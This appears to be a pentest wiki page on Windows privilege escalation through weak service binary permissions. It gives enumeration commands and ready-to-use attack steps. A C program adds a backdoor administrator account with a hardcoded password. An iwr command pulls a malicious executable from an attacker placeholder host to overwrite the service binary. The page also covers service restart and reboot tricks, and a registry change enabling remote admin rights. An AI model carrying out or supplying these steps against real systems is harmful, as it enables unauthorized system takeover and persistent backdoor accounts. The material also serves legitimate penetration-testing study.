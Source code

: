 # 🛠️ Weak service permissions

## Theory

File permissions in Windows control who can access, modify, or execute files on the system. If these permissions are misconfigured, unauthorized users could potentially alter or replace critical files, leading to security vulnerabilities such as unauthorized access.

Here's a quick summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure Permissions on Service Executable :

This type of abuse can occur when the binary of a Windows service is misconfigured, meaning that the permissions for this binary allow, for example, a local user without special privileges to modify it or even replace it with a malicious one, the Attacker can obtain the privileges of the service account in general a high privileges account.

For the enumeration can be done with Powershell, first using native Powershell commands (Living off the Land) But also with [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two is on the result PowerUp is able to tell you if a service is vulnerable or not while PowerShell just lists the Binary Services. In this example the **aniService** service is misconfigured and vulnerable to this attack.

```bash
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```

If you have identified your vulnerable binary with a tool like PowerUp or even Winpeas, you can check the permissions of this binary with **icacls.exe**. The most interesting permissions are (F) and (M) if they are related to a group such as `Everyone:` or a local user for exemple. 
```bash
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(RX)
                                    AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(RX)
                                    AUTORITE NT\Système:(F)
                                    BUILTIN\Administrateurs:(F)
                                    Tout le monde:(F)
                                    BUILTIN\Utilisateurs:(RX)
```
In the current practical case the executable permission (F) on the group "Everyone", but if the permission was set in (M) it would also have been possible to abuse. Thanks to this bad configuration the attacker can simply replace the binary with another malicious one. it is possible to use PowerUp for automated task.
```bash
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is launched it will just need to **restart the service** to be sure that the abuse is well worked. 

The second method consists of creating yourself your malicious binary that can have advantages including the bypass of the AV detection. Here is a simple C code that will execute a system windows command (You can of course replace the system command with another.).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

# COMPILE THE CODE
i686-w64-mingw32-gcc <CODE.c> -lws2_32 -o <FILE.exe>
```
Thanks to the wrong permission the attacker can replace the old executable by renominating it for example. Then it will be able to add the new malicious file with a name identical to the original one.
```bash
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<KALI_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```
Once the binary is replaced you have to restart the service, to check if this is possible a tool of the suite sysinternal can help, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) is a tool that allows adminsys to quickly check what type of access users or specific groups have to resources, including files, directories, registry keys, global objects and Windows services.
```bash
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage the start are **SERVICE_START** and **SERVICE_STOP** if they are present on your user or on a group that controls you then you can restart the service.
```bash
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
There is an alternative if ever the Startup permissions are not present, with the sc.exe tool you can look at the boot method used by the service. If it is on `AUTO_START`, this means that the service starts at windows boot.
```bash
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows you to reboot a Windows system. With this privilege, you can indirectly restart the service without having the direct permissions to restart it.
```
> shutdown /r /t 0
```
Once the service is rebooted your payload should be run.

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local administrators groupexcept for those with a RID of 500 (the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction. The value of the key needs to be changed.
```
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

#### Ressources :
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)
